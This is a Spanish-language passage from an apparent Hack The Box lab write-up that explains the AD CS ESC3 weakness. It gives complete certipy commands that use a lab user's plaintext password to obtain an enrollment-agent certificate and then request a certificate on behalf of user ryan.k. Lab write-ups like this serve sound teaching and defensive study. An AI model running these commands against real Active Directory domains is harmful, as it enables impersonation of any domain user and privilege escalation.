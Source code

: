 **Vulnerabilidad encontrada: ESC3**
- Template vulnerable: `Delegated-CRA`
- Permite Certificate Request Agent
- Puede solicitar certificados en nombre de otros usuarios

### 7.2 Explicación de ESC3

ESC3 es una vulnerabilidad en la que:
1. Un usuario puede obtener un certificado con el permiso de "Certificate Request Agent"
2. Con ese certificado, puede solicitar certificados para otros usuarios
3. Esto permite suplantar la identidad de cualquier usuario del dominio

### 7.3 Explotación de ESC3 - Paso 1: Obtener Certificado de Agente

```bash
# Solicitar certificado de agente para Lion.SK
python3 certipy/entry.py req \
    -u 'Lion.SK@CERTIFICATE.HTB' \
    -p '!QAZ2wsx' \
    -dc-ip 10.10.11.71 \
    -target DC01.CERTIFICATE.HTB \
    -ca 'Certificate-LTD-CA' \
    -template 'Delegated-CRA' \
    -out lion.sk

# Verificar archivos creados
ls -la lion.sk*
# lion.sk.pfx - Certificado con clave privada
# lion.sk.crt - Certificado público
# lion.sk.key - Clave privada
```

### 7.4 Explotación de ESC3 - Paso 2: Solicitar Certificado para ryan.k

```bash
# Usar el certificado de agente para solicitar uno de ryan.k
python3 certipy/entry.py req \
    -u 'Lion.SK@CERTIFICATE.HTB' \
    -p '!QAZ2wsx' \
    -dc-ip 10.10.11.71 \
    -target DC01.CERTIFICATE.HTB \
    -ca 'Certificate-LTD-CA' \
    -template 'SignedUser' \
    -on-behalf-of 'CERTIFICATE\ryan.k' \
    -pfx lion.sk.pfx \
    -out ryan.k

# Verificar certificado creado
ls -la ryan.k*
```
